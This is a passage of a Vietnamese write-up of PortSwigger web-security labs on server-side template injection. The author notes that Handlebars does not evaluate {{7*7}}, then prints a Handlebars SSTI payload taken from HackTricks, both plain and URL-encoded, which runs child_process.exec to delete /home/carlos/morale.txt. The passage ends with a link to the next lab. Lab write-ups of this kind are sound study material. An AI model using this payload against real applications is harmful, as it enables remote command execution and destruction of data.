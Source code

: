 Handlebars không hiểu cú pháp `{{7*7}}` vì nó không hỗ trợ tính toán trực tiếp trong template.

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}

URLencoded:
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

Tìm được 1 đoạn mã exploit Handlebars trên Hacktricks

Dán payload vào ⇒ Thành công :))))

Nôm na thì đoạn mã khai thác SSTI trong Handlebars để chạy lệnh `rm /home/carlos/morale.txt`

## SSTI-05: **Server-side template injection with information disclosure via user-supplied objects**

[lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects](https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-with-information-disclosure-via-user-supplied-objects)
